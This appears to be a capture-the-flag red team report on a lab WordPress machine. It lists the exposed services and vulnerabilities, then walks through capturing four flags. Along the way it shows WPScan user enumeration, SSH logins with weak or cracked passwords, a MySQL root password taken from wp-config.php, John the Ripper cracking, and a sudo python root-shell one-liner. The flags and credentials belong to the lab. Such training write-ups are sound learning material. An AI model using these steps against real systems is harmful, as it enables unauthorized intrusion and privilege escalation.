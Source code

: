 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:
![nmap](Images1/nmap target1.PNG)

This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Services
	1. Port 22/TCP - Open SSH
	2. Port 80/TCP - Open HTTP
	3. Port 111/TCP - Open rpcbind
	4. Port 139/TCP Open netbios-ssn
	5. Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on each target (with severity levels):

Target 1
- User Enumeration (Wordpress) - Medium
- Weak Password Implementation - Critical
- No file security permission implemented - High
- Use of weak password salted hashes - High
- Python root escalation privileges - Critical
- Directory traversal - High


### Exploitation


The Red Team was able to penetrate `Target 1` retrieve the following confidential data:
- Target 1
  - `flag1.txt`:{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - SSH to server using weak password
      - After enumerating users with wpscan --url http://192.168.1.110 --enumerate u, the user Michael's password was exploited. SSH connection was established by: ssh michael@192.168.1.110, password:michael.
![users enumerate](Images1/users enumerate.PNG)
![ssh](Images1/ssh.PNG)
      - The flag was found using: grep -R flag1
![flag1](Images1/flag1.PNG)

  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Same exploit as Flag 1
      - The second flag was found moving into the /var/www directory while searching for the wp-config.php file. The following commands were used: cd .., ls -ah, cat flag2.txt
![flag 2](Images1/flag 2.PNG)
  
  - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Accessing mysql database using the wp-config.php file
      - The wp-config.php contained the login credentials for the mysql Wordpress database. Commands used: mysql -u root -pR@v3nSecurity wordpress, show tables;, select * from wp_posts;
![flag 3 n 4](Images1/flag 3 n 4.PNG)

  - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Same exploit as Flag 3
      - The third and fourth flag were found together in the mysql database. Note: Another way to obtain flag 4 is to get Steven's password hash from the wp_users table in the database. Using JohnTheRipper, john/root/Desktop/hashes.txt --wordlist=rockyou.txt, gave pink84 as Steven's password. From there an SSH connection could be made: ssh steven@192.168.1.110. To escalate to root after seeing Steven has python sudo access using sudo -l, the following command gave root access: sudo ./python -c 'import os;os.system("/bin/bash")'

![sshsteven](Images1/steven ssh.PNG)
![flag4](Images1/flag4.PNG)

